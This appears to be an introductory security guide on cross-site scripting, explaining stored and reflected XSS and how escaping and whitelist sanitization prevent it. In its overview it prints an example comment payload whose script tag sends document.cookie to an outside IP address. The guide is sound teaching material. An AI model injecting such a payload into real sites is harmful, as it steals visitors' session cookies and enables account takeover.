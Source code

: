 # Cross Site Scripting

Author: Tan Wang Leng

## Overview

Cross site scripting (XSS) is a vulnerability found in websites.

Textboxes are commonly used in forms in websites to ask the user for input. For
example, blog websites may provide a textbox for user to enter comments.

However, are they limited to just typing in plain text? For some websites, they
may not check their input, thus users are able to use formatting HTML tags, such
as `<b>` for bolding and `<i>` for italic.

```html
I <b>like</b> your blog post!
```

becomes: I **like** your blog post!

The problem of not checking the user's input is when the user starts using HTML
for malicious purposes. For example, HTML also supports `<script>`, for you to
write JavaScript code on the webpage as well.

```html
This is an innocent looking comment. <script>sendToServer("http://139.241.0.3/", document.cookie)</script>
```

While any visitors of the blog will only see the non-script portion of the
comments (i.e. `This is an innocent looking comment.`), the browser will not
show the script portion of the comment, because it is legal HTML (you won't see
the tags like `<b>` and `<i>` when viewing webpages, so you definitely won't see
`<script>` on the webpage).

However, the browser is **actually executing the script**. Therefore, the hacker
can write any script that he wants (in our example, a function to send to the
hacker the user's cookies), without the user even being aware of what's going
on.

Therefore, the hacker has managed to add additional malicious "functionality" to
the website, that is not written by the original website developer.

Resources:

1. http://projects.webappsec.org/f/WASC-TC-v2_0.pdf (page 32)
1. http://guides.rubyonrails.org/security.html#cross-site-scripting-xss
1. https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29
1. http://www.symantec.com/connect/blogs/cross-site-scripting-vulnerabilities

## Types of Cross Site Scripting

There are no standard definitions, but there are at least two different types of
XSS:

* Persistent XSS (also known as stored XSS) - The JavaScript code gets stored in
the web server. Example: Posting a malicious JavaScript code into a blog post as
a comment. The comment gets stored in the database, and future visitors of the
webpage will retrieve the comment from the database, resulting in execution.

* Non-persistent XSS (also known as reflected XSS) - The JavaScript code is
inserted in URL/links of website that accepts URL parameters as input. The input
is therefore not stored in a database. For example:

`https://www.ecard.com/view-ecard.php?content=Happy%20Holidays<script>...</script>`

Resources:

1. http://projects.webappsec.org/f/WASC-TC-v2_0.pdf (page 33)
1. https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29#Stored_and_Reflected_XSS_Attacks
1. http://security.stackexchange.com/questions/65142/what-is-reflected-xss

## Preventing Cross Site Scripting

There are a couple of ways to prevent your website against XSS. The two most
common ways are:

* Escaping String Input: By converting legal HTML characters to their
display-equivalent (e.g. `<` to `&lt;`), you prevent the symbol from being
parsed as HTML. It now even shows the content on the screen (in case the actual
intention is to actually show someone how to code for example).

* Whitelist Sanitization: By scanning and parsing the input as HTML, you can
remove undesired HTML elements, and only allowing certain whitelisted HTML
elements to be used (e.g. whitelisting only `<b>` and `<i>`).

Resources:

1. https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet
(2.2 RULE #1 - HTML Escape Before Inserting Untrusted Data into HTML Element Content)
(2.7 RULE #6 - Sanitize HTML Markup with a Library Designed for the Job)
1. https://github.com/OWASP/java-html-sanitizer
1. https://github.com/rails/rails_xss
1. http://api.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html
